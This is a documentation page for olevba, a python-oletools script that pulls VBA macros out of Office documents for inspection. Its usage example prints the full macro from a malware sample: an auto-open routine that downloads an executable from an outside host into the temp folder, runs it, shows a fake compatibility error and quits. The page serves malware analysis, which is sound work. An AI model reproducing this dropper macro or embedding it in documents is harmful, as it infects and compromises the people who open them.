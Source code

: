 olevba
======

olevba is a script to parse OLE and OpenXML files such as MS Office documents
(e.g. Word, Excel), to extract VBA Macro code in clear text.

It is part of the [python-oletools](http://www.decalage.info/python/oletools) package.

Supported formats:

- Word 97-2003 (.doc, .dot), Word 2007+ (.docm, .dotm)
- Excel 97-2003 (.xls), Excel 2007+ (.xlsm, .xlsb)
- PowerPoint 2007+ (.pptm, .ppsm)

olevba is based on source code from [officeparser](https://github.com/unixfreak0037/officeparser) by John William Davison

## Usage

	:::text
	olevba.py <file>

### Example

Checking the malware sample [DIAN_caso-5415.doc](https://malwr.com/analysis/M2I4YWRhM2IwY2QwNDljN2E3ZWFjYTg3ODk4NmZhYmE/):

	:::text
	>olevba.py DIAN_caso-5415.doc

	INFO: Extracting VBA Macros from OLE file DIAN_caso-5415.doc
	
	-------------------------------------------------------------------------------
	ThisDocument.cls
	
	Attribute VB_Name = "ThisDocument"
	Attribute VB_Base = "1Normal.ThisDocument"
	Attribute VB_GlobalNameSpace = False
	Attribute VB_Creatable = False
	Attribute VB_PredeclaredId = True
	Attribute VB_Exposed = True
	Attribute VB_TemplateDerived = True
	Attribute VB_Customizable = True
	Option Explicit
	Private Declare Function URLDownloadToFileA Lib "urlmon" (ByVal FVQGKS As Long,	_
	ByVal WSGSGY As String, ByVal IFRRFV As String, ByVal NCVOLV As Long, _
	ByVal HQTLDG As Long) As Long
	Sub AutoOpen()
	    Auto_Open
	End Sub
	Sub Auto_Open()
	SNVJYQ
	End Sub
	Public Sub SNVJYQ()
	    OGEXYR "http://germanya.com.ec/logs/test.exe", Environ("TMP") & "\sfjozjero.exe"
	End Sub
	Function OGEXYR(XSTAHU As String, PHHWIV As String) As Boolean
	    Dim HRKUYU, lala As Long
	    HRKUYU = URLDownloadToFileA(0, XSTAHU, PHHWIV, 0, 0)
	    If HRKUYU = 0 Then OGEXYR = True
	    Dim YKPZZS
	    YKPZZS = Shell(PHHWIV, 1)
	    MsgBox "El contenido de este documento no es compatible con este equipo." &	vbCrLf & vbCrLf & "Por favor intente desde otro equipo.", vbCritical, "Equipo no compatible"
	    lala = URLDownloadToFileA(0, "http://germanya.com.ec/logs/counter.php", Environ("TMP") & "\lkjljlljk", 0, 0)
	    Application.DisplayAlerts = False
	    Application.Quit
	End Function
	Sub Workbook_Open()
	    Auto_Open
	End Sub

## How to use olevba in Python applications	

TODO

--------------------------------------------------------------------------

python-oletools documentation
-----------------------------

- [[Home]]
- [[License]]
- [[Install]]
- [[Contribute]], Suggest Improvements or Report Issues
- Tools:
	- [[olebrowse]]
	- [[oleid]]
	- [[olemeta]]
	- [[oletimes]]
	- [[olevba]]
	- [[pyxswf]]
	- [[rtfobj]] 